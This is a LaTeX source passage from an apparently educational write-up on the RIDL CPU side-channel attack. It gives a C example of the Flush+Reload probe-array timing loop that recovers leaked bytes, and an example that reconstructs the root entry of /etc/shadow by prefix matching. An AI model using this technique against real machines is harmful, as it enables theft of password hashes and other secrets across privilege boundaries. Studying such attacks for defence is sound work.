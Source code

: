 \documentclass[11pt,a4paper,titlepage]{article}
\begin{document}
            To retrieve data, we will have to access the probe array and measure how long we waited for data. If we get data from specific index faster then from other indexes, the used index is leaked byte of data. Follows an example of possible RIDL application in C language:
\begin{lstlisting}[style=CStyle]
// Flush buffer entries
for ( int i = 0; i < 256; i++ ) {
    flush( probeArray + ( i * 4096 ) );
}

// Storing potentially leaked byte into variable
char byte =  *( new_page );

// Using leaked byte as an index into probeArray
char *p   = probeArray + ( byte * 4096 )

// Loading leaked byte into cache
*( p );

// Getting leaked byte from cache
for ( int i = 0; i < 256; i++ ) {
    
    t0 = cycles();
    *( volatile char * ) ( probeArray + ( i * 4096 ) );
    dt = cycles() - t0;
    
    // If we accessed data quickly enought, current index is leaked byte
    if ( dt < 100 ) {
        results[ i ]++;
    }
}    
\end{lstlisting}
            
        \subsection{Filtering data}
        The last step is to filter leaked data -- we leak data that are in flight and not all of the leaked information is useful for us. But filtering data is easy -- we can use prefix matching (we know, that first line in /etc/shadow starts as root:) or a different method of filtering data based on the mask. Example of prefix matching:
        
\begin{Verbatim}[commandchars=\\\{\},codes={\catcode`$=3\catcode`_=8},samepage=false,frame=single]
\textit{Iteration 1}
Known prefix: "root:"
Current data: https:// [No Match]
Current data: root:Sp/ [Match, so we add "S" into result]
 
\textit{Iteration 2}
Known prefix: root:S
Current data: someText [No Match]
Current data: root:Sp/ [Match, so we add "p" into result]
 
\textit{Iteration 3}
Known prefix: root:Sp
Current data: FILE.TXT [No Match]
Current data: root:Sp/ [Match, so we add "/" into result]

...
\end{Verbatim}
        
\end{document}
